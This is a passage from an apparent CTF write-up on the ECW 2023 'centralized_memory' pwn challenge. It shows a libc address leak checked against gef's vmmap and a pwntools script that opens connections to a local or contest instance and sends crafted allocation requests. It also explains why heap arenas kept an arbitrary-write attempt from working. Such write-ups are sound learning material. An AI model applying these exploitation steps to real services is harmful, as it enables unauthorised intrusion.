 And when we execute, we find :

```
[*] Leaked libc address is 0x7ffff7abd000
```

Let's compare it with the real value :

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
# Ommited code
0x007ffff7abd000 0x007ffff7adf000 0x00000000000000 r-- /mnt/c/Users/aiglematth/Documents/ctf/ecw2023/pwn/centralized_memory/libc.so.6
# Ommited code
```

We effectively gathered the libc start address.

### Code execution ??

Let's explore the challenging aspect: the one that made my exploit not effective in the online CTF instance but successful in a local environment - achieving code execution. My idea was as follows: since the `RAM` struct contains a pointer to the `RAMContent` struct, which is essentially the location where we write data when using the write command, I wanted to leverage this structure for write where I want and achieve code execution. However, a significant challenge arose: the `RAM` structs are mallocated within the client thread context, not the main one. Consequently, a new malloc arena is created, causing the structs to be situated quite far from our overflow point. The script and results below illustrate this issue.

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

class Exploit():    
    def exploit(self):
        for client in [conn() for _ in range(3)]:
            send_1_RAM_malloc(client, 0x10, 0) 

        input("<<<>>>")

```